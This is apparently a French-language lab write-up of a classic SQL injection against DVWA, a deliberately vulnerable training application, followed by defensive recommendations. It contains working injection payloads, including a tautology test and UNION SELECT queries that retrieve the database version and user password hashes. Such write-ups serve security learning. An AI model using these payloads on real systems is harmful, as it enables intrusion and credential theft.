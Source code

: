 # 🔓 SQL Injection - DVWA

## Cible :
http://192.168.1.42:4280/vulnerabilities/sqli/

## Niveau de sécurité DVWA : Low

### 🔍 Objectif :
Extraire les utilisateurs présents dans la base DVWA via une faille d'injection SQL classique.

### 1. Injection de test :
`1' OR '1'='1`
✅ Résultat : liste complète des utilisateurs

### 2. Informations sur le SGBD :
- `1' UNION SELECT null, version() --` → erreur SQL donc on essaye avec autre chose
- `1' UNION SELECT null, version() -- 'OR '1'='1` → bingo ça fonctionne: 10.11.11-MariaDB-ubu2204
- `1' UNION SELECT null, database() -- 'OR '1'='1` → dvwa


### 3. Extraction de données :
- `1' UNION SELECT user, password FROM users -- 'OR '1'='1`
✅ Résultat : noms + hash MD5 des mots de passe

### 🔐 Analyse :
L’entrée n’est pas filtrée côté serveur, permettant une injection SQL directe. Aucun mécanisme de sécurité n’est présent à ce niveau de DVWA.

### 🔧 Recommendations :
- Utiliser des requêtes préparées pour éviter les injections SQL.
- Valider et échapper les entrées utilisateur.
- Mettre en place un système de journalisation pour détecter les tentatives d'injection.

### Aller plus loin :
